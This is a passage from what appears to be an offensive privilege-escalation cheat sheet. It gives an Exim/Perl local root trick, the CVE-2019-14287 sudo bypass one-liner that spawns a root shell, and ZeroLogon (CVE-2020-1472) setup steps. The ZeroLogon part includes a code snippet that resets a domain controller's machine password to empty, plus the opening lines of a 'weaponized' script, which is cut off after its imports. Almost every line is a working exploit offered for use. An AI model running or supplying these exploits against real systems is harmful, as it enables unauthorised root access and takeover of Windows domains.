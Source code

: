 ```bash
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps
```

## CVE-2019-14287: Sudo Bypass

> https://www.exploit-db.com/exploits/47502

### Prerequisites

- Sudo version < 1.8.28

### Exploitation

```console
!root:
$ sudo -u#-1 /bin/bash
```

## CVE-2020-1472: ZeroLogon LPE

> https://github.com/SecuraBV/CVE-2020-1472

> https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py

### Prerequisites

```console
$ python3 -m pip install virtualenv
$ python3 -m virtualenv venv
$ source venv/bin/activate
$ pip install git+https://github.com/SecureAuthCorp/impacket
```

### PoC Modification

```python
    newPassRequest = nrpc.NetrServerPasswordSet2()
    newPassRequest['PrimaryName'] = dc_handle + '\x00'
    newPassRequest['AccountName'] = target_computer + '$\x00'
    newPassRequest['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
    auth = nrpc.NETLOGON_AUTHENTICATOR()
    auth['Credential'] = b'\x00' * 8
    auth['Timestamp'] = 0
    newPassRequest['Authenticator'] = auth
    newPassRequest['ComputerName'] = target_computer + '\x00'
    newPassRequest['ClearNewPassword'] =  b'\x00' * 516
    rpc_con.request(newPassRequest)
```

### Weaponized PoC

```python
#!/usr/bin/env python3

from impacket.dcerpc.v5 import nrpc, epm
from impacket.dcerpc.v5.dtypes import NULL
from impacket.dcerpc.v5 import transport
from impacket import crypto

import hmac, hashlib, struct, sys, socket, time
from binascii import hexlify, unhexlify
from subprocess import check_call

```